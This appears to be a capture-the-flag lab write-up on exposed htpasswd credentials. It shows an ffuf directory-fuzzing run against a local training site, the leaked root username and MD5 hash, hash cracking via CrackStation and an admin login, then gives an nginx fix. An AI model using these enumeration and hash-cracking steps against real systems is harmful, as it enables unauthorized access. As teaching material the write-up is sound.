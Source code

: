 # Credentials Exposure via htpasswd

## 📖 Vulnerability Explanation
Credential exposure is a misconfiguration vulnerability that happens when private authentication information is exposed to non authorized users.

## ⚙️ Exploitation Process

- Enumerate the web directories via web fuzzing.
```
ffuf -u 'http://localhost:9090/FUZZ' -w /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt -fs 975

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:9090/FUZZ
 :: Wordlist         : FUZZ: /sgoinfre/students/apena-ba/cybersecurity/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 975
________________________________________________

admin                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 4ms]
audio                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 2ms]
css                     [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
errors                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
favicon.ico             [Status: 200, Size: 1406, Words: 2, Lines: 2, Duration: 0ms]
fonts                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 5ms]
images                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
includes                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 1ms]
js                      [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 0ms]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 4, Duration: 0ms]
whatever                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 12ms]
:: Progress: [20478/20478] :: Job [1/1] :: 12500 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

---

We find a htpasswd file present in the ```whatever/``` directory. After downloading the file, we can see a username and hash combination.
```

root:437394baff5aa33daa618be47b75cb49
```

---
- Check the hash value:
![](./CrackStation.png)
---

Use the credentials obtained to login on the ```admin/``` directory and get the flag.

## 🧰 Additional Resources
In order to enumerate web directories we used ```ffuf```, a compiled web fuzzer written in go.

- https://github.com/ffuf/ffuf

The wordlist we used part of the SecLists project, which is a recognised repository with multiple wordlists for various purposes.

- https://github.com/danielmiessler/SecLists.git

We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
The file ```htpasswd``` or any file containing credentials should never be exposed to unauthorized users. Configuring nginx to restrict access to this file is recommended.

## ☝️🤓 Advanced explanation
A properly configured nginx config file could look like this:
```
server {
    listen 80;
    server_name bornToSec.com;

    root /var/www/html;

    location /admin/ {
        auth_basic           "Restricted Area";
        auth_basic_user_file /etc/nginx/.htpasswd;
    }

    location ~ /\.htpasswd {
        deny all;
    }

    location / {
        index index.php;
    }
}
```